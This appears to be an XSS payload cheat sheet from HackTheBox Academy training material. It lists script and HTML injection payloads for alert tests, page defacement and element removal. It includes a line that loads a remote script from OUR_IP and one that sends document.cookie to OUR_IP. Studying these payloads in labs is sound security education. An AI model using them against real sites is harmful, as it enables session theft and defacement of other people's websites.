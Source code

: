 `<script>alert(window.origin)</script>` Basic XSS Payload
`<plaintext>` Basic XSS Payload
`<script>print()</script>` Basic XSS Payload
<img src="" onerror=alert(window.origin)> `<img src="" onerror=alert(window.origin)>` HTML-based XSS Payload
`<script>document.body.style.background = "#141d2b"</script>` Change Background Color
`<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` Change Background Image
`<script>document.title = 'HackTheBox Academy'</script>` Change Website Title
`<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>` Overwrite website's main body
`<script>document.getElementById('urlform').remove();</script>` Remove certain HTML element
`<script src="http://OUR_IP/script.js"></script>` Load remote script
`<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>` Send Cookie details to us
